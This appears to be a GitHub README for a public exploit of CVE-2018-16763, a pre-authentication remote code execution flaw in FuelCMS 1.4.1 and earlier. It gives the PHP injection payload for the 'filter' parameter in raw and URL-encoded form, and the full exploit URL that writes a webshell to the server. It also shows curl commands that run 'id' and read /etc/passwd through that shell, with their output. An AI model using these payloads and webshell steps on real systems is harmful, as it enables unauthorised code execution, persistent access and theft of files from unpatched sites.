 # FuelCMS - CVE-2018-16763 - Pre-Auth Remote Code Execution

## Requirements

 - FuelCMS version <= 1.4.1
 - Unauthenticated.

## Exploitation

### Download the exploit 

You can find the exploit code for this CVE here: [https://github.com/p0dalirius/CVE-2018-16763-FuelCMS-1.4.1-RCE](https://github.com/p0dalirius/CVE-2018-16763-FuelCMS-1.4.1-RCE)

### Step 1: Upload the webshell plugin

First, you need to start the interactive [console.py](https://github.com/p0dalirius/CVE-2018-16763-FuelCMS-1.4.1-RCE/blob/master/console.py) to execute commands and download remote files. It will use CVE-2018-16763 php code injection in the `filter` parameter to upload a php webshell API in FuelCMS using `file_put_contents`. The payload used is the following:

```
'+pi(print($a='file_put_contents'))+$a($_POST["d0eb3f9a"],$_POST["9bc30f43"])+'
```

This payload urlencoded gives:

```
%27%2Bpi%28print%28%24a%3D%27file%5Fput%5Fcontents%27%29%29%2B%24a%28%24%5FPOST%5B%22d0eb3f9a%22%5D%2C%24%5FPOST%5B%229bc30f43%22%5D%29%2B%27
```

The final exploit URL is:

```
http://127.0.0.1:10080/fuel/pages/select/?filter=%27%2Bpi%28print%28%24a%3D%27file%5Fput%5Fcontents%27%29%29%2B%24a%28%24%5FPOST%5B%22d0eb3f9a%22%5D%2C%24%5FPOST%5B%229bc30f43%22%5D%29%2B%27
```

Now the interactive [console.py](https://github.com/p0dalirius/CVE-2018-16763-FuelCMS-1.4.1-RCE/blob/master/console.py) performs a POST request to this URL to upload [./webshell/webshell.php](https://github.com/p0dalirius/CVE-2018-16763-FuelCMS-1.4.1-RCE/blob/master/webshell/webshell.php) into Fuel CMS.

![](./.github/shell_autoupload.png)

### Step 2.1: Executing commands

You can now execute commands by sending a GET or POST request to http://127.0.0.1:10080/c1f3e834b49c4e548ebde7f596028f5b.php with `action=exec&cmd=id`:

```sh
$ curl -X POST 'http://127.0.0.1:10080/c1f3e834b49c4e548ebde7f596028f5b.php' --data "action=exec&cmd=id"
{"stdout":"uid=33(www-data) gid=33(www-data) groups=33(www-data)\n","exec":"id"}
```

You can also access it by a GET request from a browser.

### Step 2.2: Downloading files

You can also download remote files by sending a GET or POST request to http://127.0.0.1:10080/c1f3e834b49c4e548ebde7f596028f5b.php with `action=download&cmd=/etc/passwd`:

```sh
$ curl -X POST 'http://127.0.0.1:10080/c1f3e834b49c4e548ebde7f596028f5b.php' --data "action=download&path=/etc/passwd" -o-
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false
```

You can also download a remote file from a browser with a GET request.

### Step 3: The interactive console

When your webshell is active, you can now use the interactive [console.py](https://github.com/p0dalirius/CVE-2018-16763-FuelCMS-1.4.1-RCE/blob/master/console.py) to execute commands and download remote files.

https://user-images.githubusercontent.com/79218792/171498197-2fb8a7bd-45b0-4fd7-86a1-9bb74aa31664.mp4

## References
 - https://www.getfuelcms.com/
 - https://github.com/p0dalirius/CVE-2018-16763-FuelCMS-1.4.1-RCE
 - https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
